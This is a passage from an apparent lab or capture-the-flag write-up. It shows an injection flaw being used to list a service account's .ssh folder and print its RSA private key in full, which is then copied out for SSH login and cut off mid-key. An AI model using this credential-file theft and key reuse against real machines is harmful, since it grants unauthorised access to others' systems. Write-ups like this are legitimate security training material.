 - And we have a private key  
![ls-ssh](https://user-images.githubusercontent.com/96747355/167316199-f08b56f4-0b20-4672-b52c-c761bbe1ec01.png)  
```
<p>name=total 20
drwx------ 2 svc_acc svc_acc 4096 Apr  7 11:08 .
drwxr-xr-x 7 svc_acc svc_acc 4096 Apr  7 13:51 ..
-rw-rw-r-- 1 svc_acc svc_acc  394 Apr  7 11:08 authorized_keys
-rw------- 1 svc_acc svc_acc 1679 Apr  7 11:08 id_rsa
-rw-r--r-- 1 svc_acc svc_acc  394 Apr  7 11:08 id_rsa.pub
</p>
```
- We get the private key!  
![catrsa](https://user-images.githubusercontent.com/96747355/167316265-851688c0-1ceb-478a-9055-521c39101525.png)  
```
<p>name=-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
t4UB/PaoU0+kz1dNDEyNamSe5mXh/Hc/mX9cj5cQFABN9lBTcmfZ5R6I0ifXpZuq
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----

</p>
```
- Let's remove useless chars from the key and try to ssh to the box using it
```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
t4UB/PaoU0+kz1dNDEyNamSe5mXh/Hc/mX9cj5cQFABN9lBTcmfZ5R6I0ifXpZuq
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
```
